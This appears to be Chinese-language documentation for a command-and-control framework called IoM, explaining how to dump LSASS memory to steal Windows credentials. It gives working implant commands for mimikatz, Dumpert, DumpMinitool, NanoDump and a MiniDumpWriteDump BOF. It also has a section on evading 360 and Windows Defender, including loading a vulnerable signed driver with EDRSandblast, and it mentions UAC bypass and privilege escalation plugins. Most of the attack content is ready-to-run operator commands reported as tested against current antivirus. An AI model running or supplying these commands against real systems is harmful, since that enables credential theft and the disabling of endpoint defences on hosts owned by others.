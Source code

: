 # IoM 用法: DumpLSASS

通常在提权或绕过UAC后，我们会使用诸如 Mimikatz 或 一些DumpLSASS 工具来获取 lsass.dmp，进而提取凭据。本文将主要举例如何在 IOM 环境中的用法。

## 一些常见的导出方法

按照执行方式举例

### PE
- mimikatz
- procdump 
- dumpert
- avdump
- sqldumper.exe
- 等等

你可以使用execute_exe
```
execute_exe "D:\TOOL\iom_test\mimikatz.exe" -- log "privilege::debug" "sekurlsa::logonPasswords full" exit
```
![mimikatz](../../assets/usage/lsass/mimikatz.png)

和execute_exe相比, inline_exe的隐蔽性会更好, 但是稳定性方面一些不稳定操作crash或查杀会导致implant直接崩溃
```
inline_exe "D:\TOOL\iom_test\Outflank-Dumpert.exe"
```
![Dumpert](../../assets/usage/lsass/dumpert.png)

### C\#

- DumpMinitool
- SharpDump
- 等

同样的, 你可以找到对应的execute_assembly和inline_assembly来执行
```bash
execute_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
inline_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
```


### Dll

- dumpert-dll
- comsvcs.dll

```
execute_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
inline_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
```

## Bypass 360/Windows Defender
以上大多数方法都已失效，360和Windows Defender都会直接查杀，一些日志相关结果如下:

1. 文件落地执行直接查杀

2. 牺牲进程注入查杀

3. 读取LSASS敏感信息查杀

4. 检测到lsass.dmp文件转存储到了本地磁盘的查杀lsass.dmp文件本身

360核晶, [附截图](../../assets/usage/lsass/360hvm.png)

Windows Defender , [附截图](../../assets/usage/lsass/windows_defender.png)

下面介绍几个bypass方法。

### EDRSandblast 
EDRSandBlast是一个用C编写的工具，可将易受攻击的签名驱动程序武器化以绕过 EDR 检测（通知例程回调、对象回调和ETW TI提供程序）和LSASS保护。还实施了多种用户态脱钩技术来逃避用户态监控。

经过测试wd可以过

```
mkdir "C:\temp"
cd "C:\temp"
upload "D:\EDRSandblast\x64\Release\gdrv.sys" "C:\temp\gdrv.sys"
execute_exe "D:\EDRSandblast\x64\Release\EDRSandblast_LsassDump.exe"
```

![EDRSandblast_LsassDump.png](../../assets/usage/lsass/EDRSandblast_LsassDump.png)

![temp_edrsandblast](../../assets/usage/lsass/temp_edrsandblast.png)

### NanoDump
nanodump是一个一种灵活的工具，可创建 LSASS 进程的小型转储

经测试，核晶和windows defender都无感。

1. 通过fork间接读取 LSASS ,并使用无效签名将转储写入到目标机器磁盘
```
nanodump -- --fork --write "C:\lsass.dmp"
.\restore_signature.exe lsass.dmp
python -m pypykatz lsa minidump lsass.dmp
```
![nanodump.png](../../assets/usage/lsass/nanodump2.png)

2. 使用 seclogon Leak Remote 在记事本进程中泄漏 LSASS 句柄，复制该句柄以访问 LSASS，然后通过创建分叉并使用有效签名(--valid)，下载转储来间接读取它
```
nanodump -- --seclogon-leak-remote "C:\Windows\notepad.exe" --fork --valid
```
![seclogon-leak-remote.png](../../assets/usage/lsass/seclogon-leak-remote.png)

### MiniDumpWriteDump

360核晶和wd都无感，但是本地测试时此方法会生成更大的转储文件约60M (nanodump的文件10M)
```
bof "D:\BOFs\MiniDumpWriteDump\minidumpwritedump.x64.o" -- int:648 str:"C:\lsass.dmp"
```

![MiniDumpWriteDump](../../assets/usage/lsass/MiniDumpWriteDump.png)

## 其他:

对于UAC和提权方面，iom目前也已经支持了一些常见的插件，如UAC bypass、ElevateKit等，可以直接使用。

用于提权的 ElevateKit 提权截图示例如下:

![ElevateKit](../../assets/usage/lsass/ElevateKit.png)

UAC Bypass截图:

![UAC Bypass](../../assets/usage/lsass/uac-bypass.png)

## 参考
- https://github.com/fortra/nanodump
- https://github.com/rookuu/BOFs
- https://github.com/wavestone-cdt/EDRSandblast
- https://github.com/outflanknl/Dumpert
- https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools
- https://3gstudent.github.io
- https://redsiege.com/blog/2024/03/dumping-lsass-like-its-2019/
- ...